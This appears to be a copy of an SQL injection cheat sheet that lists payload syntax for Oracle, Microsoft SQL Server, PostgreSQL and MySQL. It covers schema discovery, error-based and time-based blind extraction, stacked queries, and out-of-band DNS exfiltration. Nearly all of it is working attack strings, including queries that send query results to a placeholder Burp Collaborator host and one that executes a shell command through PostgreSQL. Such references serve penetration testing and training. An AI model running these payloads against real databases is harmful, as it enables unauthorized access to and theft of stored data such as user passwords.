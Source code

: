 # SQL Injection Cheat Sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String Concatenation

You can concatenate together multiple strings to make a single string.

- **Oracle**: `'foo'||'bar'`
- **Microsoft**: `'foo'+'bar'`
- **PostgreSQL**: `'foo'||'bar'`
- **MySQL**: `'foo' 'bar'` (Note the space between the two strings)  
  `CONCAT('foo','bar')`

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

- **Oracle**: `SUBSTR('foobar', 4, 2)`
- **Microsoft**: `SUBSTRING('foobar', 4, 2)`
- **PostgreSQL**: `SUBSTRING('foobar', 4, 2)`
- **MySQL**: `SUBSTRING('foobar', 4, 2)`

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

- **Oracle**: `--comment`
- **Microsoft**: `--comment`  
  `/*comment*/`
- **PostgreSQL**: `--comment`  
  `/*comment*/`
- **MySQL**: `#comment`  
  `-- comment` (Note the space after the double dash)  
  `/*comment*/`

## Database Version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- **Oracle**: `SELECT banner FROM v$version`  
  `SELECT version FROM v$instance`
- **Microsoft**: `SELECT @@version`
- **PostgreSQL**: `SELECT version()`
- **MySQL**: `SELECT @@version`

## Database Contents

You can list the tables that exist in the database, and the columns that those tables contain.

- **Oracle**: `SELECT * FROM all_tables`  
  `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- **Microsoft**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **PostgreSQL**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **MySQL**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

## Conditional Errors

You can test a single boolean condition and trigger a database error if the condition is true.

- **Oracle**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- **Microsoft**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- **PostgreSQL**: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- **MySQL**: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Extracting Data via Visible Error Messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

- **Microsoft**: `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
  
  > Conversion failed when converting the varchar value 'secret' to data type int.
- **PostgreSQL**: `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
  
  > invalid input syntax for integer: "secret"
- **MySQL**: `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`

  > XPATH syntax error: '\secret'

## Batched (or Stacked) Queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- **Oracle**: Does not support batched queries.
- **Microsoft**: `QUERY-1-HERE; QUERY-2-HERE`  
  `QUERY-1-HERE QUERY-2-HERE`
- **PostgreSQL**: `QUERY-1-HERE; QUERY-2-HERE`
- **MySQL**: `QUERY-1-HERE; QUERY-2-HERE`

**Note**: With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time Delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- **Oracle**: `dbms_pipe.receive_message(('a'),10)`
- **Microsoft**: `WAITFOR DELAY '0:0:10'`
- **PostgreSQL**: `SELECT pg_sleep(10)`
- **MySQL**: `SELECT SLEEP(10)`

## Conditional Time Delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- **Oracle**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- **Microsoft**: `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- **PostgreSQL**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- **MySQL**: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS Lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

- **Oracle**:
  
  (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
  `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- **Microsoft**: `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- **PostgreSQL**: `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- **MySQL**: 
  
  The following techniques work on Windows only:
  `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
  `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

## DNS Lookup with Data Exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

- **Oracle**: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- **Microsoft**: `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- **PostgreSQL**:
  ```sql
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```
- **MySQL**:
  
  The following technique works on Windows only:
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

